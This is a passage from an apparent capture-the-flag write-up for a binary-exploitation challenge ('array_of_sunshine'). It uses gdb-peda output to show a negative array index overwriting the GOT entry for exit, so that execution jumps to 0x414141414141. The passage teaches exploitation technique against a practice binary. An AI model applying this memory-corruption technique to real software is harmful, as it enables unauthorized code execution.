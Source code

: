 ```console

Breakpoint 1, 0x0000000000401604 in basket ()
```

Perfect, `-8` corresponds to the GOT entry for `exit`. Let's continue with the program and write `"AAAAAA"` to that location and see if we can redirect code execution
```console
gdb-peda$ c
Continuing.
AAAAAA

[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x7fffffffe678 --> 0x7fffffffe987 ("/home/vulnx/CTFs/sunshine/array_of_sunshine/sunshine")
RCX: 0x0 
RDX: 0xffffffffffffffc0 
RSI: 0x405040 --> 0x4010b6 (<exit@plt+6>:	push   0x8)
RDI: 0x402e7d --> 0x6972700073343225 ('%24s')
RBP: 0x7fffffffe540 --> 0x7fffffffe560 --> 0x1 
RSP: 0x7fffffffe510 --> 0xfffffff800000000 
RIP: 0x401604 (<basket+178>:	call   0x4010a0 <__isoc99_scanf@plt>)
R8 : 0x1999999999999999 
R9 : 0xa ('\n')
R10: 0x7ffff7d82ac0 --> 0x100000000 
R11: 0x202 
R12: 0x0 
[----------------------------------registers-----------------------------------]
RAX: 0x6 
RBX: 0x7fffffffe678 --> 0x7fffffffe987 ("/home/vulnx/CTFs/sunshine/array_of_sunshine/sunshine")
RCX: 0x0 
RDX: 0x7ffff7c52250 (<printf>:	endbr64)
RSI: 0xa ('\n')
RDI: 0xffffffff 
RBP: 0x7fffffffe540 --> 0x7fffffffe560 --> 0x1 
RSP: 0x7fffffffe508 --> 0x401659 (<basket+263>:	nop)
RIP: 0x414141414141 ('AAAAAA')
R8 : 0x1 
R9 : 0xa ('\n')
R10: 0x18 
R11: 0x246 
R12: 0x0 
R13: 0x7fffffffe688 --> 0x7fffffffe9bc ("SHELL=/bin/zsh")
R14: 0x7ffff7ffd000 --> 0x7ffff7ffe2c0 --> 0x0 
R15: 0x404e00 --> 0x401170 (<__do_global_dtors_aux>:	endbr64)
EFLAGS: 0x10212 (carry parity ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x414141414141
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe508 --> 0x401659 (<basket+263>:	nop)
0008| 0x7fffffffe510 --> 0xfffffff800000000 
0016| 0x7fffffffe518 --> 0x404020 --> 0x6 
0024| 0x7fffffffe520 --> 0x404038 --> 0x0 
0032| 0x7fffffffe528 --> 0x6 
0040| 0x7fffffffe530 --> 0x0 
0048| 0x7fffffffe538 --> 0xddddf7e3c569ff00 
0056| 0x7fffffffe540 --> 0x7fffffffe560 --> 0x1 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000414141414141 in ?? ()
```
